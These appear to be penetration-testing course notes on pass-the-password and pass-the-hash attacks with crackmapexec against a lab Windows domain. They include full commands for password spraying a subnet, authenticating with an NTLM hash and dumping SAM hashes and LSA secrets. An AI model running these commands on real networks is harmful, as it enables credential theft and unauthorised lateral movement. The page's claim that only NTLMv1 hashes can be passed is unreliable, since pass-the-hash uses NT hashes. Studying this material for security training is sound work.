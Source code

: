 # **Pass the Password / Pass the Hash**

## **What are this?**

If we crack a password and/or can dump the SAM hashes with **secretsdump.py** or **ntlmrelayx.py**, we can leverage both for lateral movement in networks



## **Attack 1  : Crackmapexec**

```powershell
# show help message
$ crackmapexec --help

# Pass the password attack
$ sudo crackmapexec smb 192.168.0.0/24 -u fcastle -d MARVEL.local -p Password1

# Pass the hash attack
$ sudo crackmapexec smb 192.168.0.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f --local-auth
```

### **Example**

![](https://i.imgur.com/BEJeQ9g.jpg)


**Note :** We cannot use NTLMv2 hashes for the pass the hash attack [refer to LLMNR poisoning for this type of hashes] , Only use NTLMv1 hashes [refer to SMB relay attacks for this type of hashes]. Also make sure to run your `crackmapexec` twice with the same syntax as this may lead to different results.



## **Dumping Password Hashes**

```powershell
# dump SAM hashes of local admin and users

$ sudo crackmapexec smb 192.168.0.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f --local-auth --sam
```



### **Example**


![](https://i.imgur.com/BPORRyU.png)

We can also dump `shares` and `lsa` (The LSA secrets are **a set of encrypted keys that are stored in the registry**, They could be used or cracked again) passwords of our targets


**_Dumping shares :_**


![](https://i.imgur.com/xPXK6Qs.png)



**_Dumping lsa :_**


![](https://i.imgur.com/FcNerVS.jpg)



## **Crackmapexec Modules**

Modules are set of objects within `crackmapexec` that makes it more efficient to use.

![](https://i.imgur.com/aS8WTXb.jpg)

